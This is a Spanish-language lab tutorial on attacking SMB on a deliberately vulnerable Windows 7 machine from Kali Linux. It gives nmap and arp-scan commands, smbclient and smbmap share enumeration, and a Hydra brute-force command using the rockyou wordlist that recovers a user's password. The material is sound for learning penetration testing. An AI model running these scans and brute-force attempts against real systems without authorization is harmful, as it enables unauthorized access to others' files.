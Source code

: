 Maquina que vamos a utilizar **Kali Linux y Windows 7 vulnerable** ([https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing))

  

> [!important] El protocolo SMB (Server Message Block) es un protocolo de red que permite compartir archivos, impresoras y otros recursos en una red local o a través de Internet. El puerto 445 es utilizado por SMB para comunicarse directamente sobre TCP/IP, eliminando la necesidad de NetBIOS.
> 
> Sin embargo, SMB v1 tiene vulnerabilidades de seguridad significativas y ya no se recomienda su uso. Microsoft ha deshabilitado SMB v1 de forma predeterminada en versiones modernas de Windows debido a su susceptibilidad a ataques.  
>   

  

Cuando realizamos un escaneo de puertos con nmap, es muy frecuente encontrarnos con el puerto 445 abierto dentro de una máquina windows. Esto significa que el protocolo SMB está funcionando en el objetivo; y se trata de un protocolo el cual se puede enumerar haciendo uso de distintas herramientas. Además de ser susceptible a ataques de fuerza bruta utilizando hydra.

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 43.png|image 43.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.6 -oN escaneo
```

![[Imagenes/image 1 32.png|image 1 32.png]]

  

- ¿Cómo puedo listar recursos compartidos por el protocolo SMB?
    
    Vamos a utilizar la **herramienta smbclient** para sacar estos recursos compartidos sin tener credenciales.
    
    ```Bash
    smbclient -L 10.0.3.6 -N
    ```
    
      
    
    > [!important] `**smbclient**`: Es una herramienta de línea de comandos que permite interactuar con servidores SMB/CIFS. Es parte del paquete Samba, comúnmente usado en sistemas basados en Linux y Unix.
    > 
    > `**L**`: Esta opción indica que **deseas listar los recursos compartidos** disponibles en el servidor especificado.
    > 
    > `**10.0.3.6**`: Es la dirección **IP del servidor SMB** al que te estás conectando.
    > 
    > `**N**`: Significa que **no se enviará una contraseña al servidor**. Esto es útil **si el servidor permite acceso anónimo**.
    
    ![[Imagenes/image 2 31.png|image 2 31.png]]
    
    En este caso **el servidor no permite acceso sin contraseña**.
    
      
    
- Vamos a hacer un ataque por fuerza bruta con Hydra **sabiendo el usuario** (Mario)pero **no la contraseña**.
    
    ```Bash
    hydra -l mario -P /usr/share/wordlists/rockyou.txt smb://10.0.3.6
    ```
    
    ![[Imagenes/image 3 30.png|image 3 30.png]]
    
      
    
- Sabiendo ya el usuario y contraseña vamos a listar los recursos compartidos.
    
    ```Bash
    smbclient -L //10.0.3.6 -U 'mario’
    ```
    
    ![[Imagenes/image 4 29.png|image 4 29.png]]
    
    Pero tenemos un problema con esta información no puedo saber a que recursos podría acceder con las credenciales que tengo.
    
      
    
- Usaremos la **herramienta smbmap** que hace lo mismo que smbclient pero además nos **indica que recursos tengo permisos**.
    
    ```Bash
    smbmap -H 10.0.3.6 -u 'mario' -p '123123’
    ```
    
    ![[Imagenes/image 5 28.png|image 5 28.png]]
    
      
    
- Vamos a ver como puedo **entrar** dentro del **recurso compartido Users** al que tengo permiso.
    
    ```Bash
    smbclient -U 'mario' //10.0.3.6/Users 
    ```
    
    ![[Imagenes/image 6 26.png|image 6 26.png]]
    
    ![[Imagenes/image 7 24.png|image 7 24.png]]
    
    Aquí estamos accediendo a una parte de la maquina victima. Como vemos no nos deja salir mas allá del recurso compartido.
    
    ![[Imagenes/image 8 22.png|image 8 22.png]]
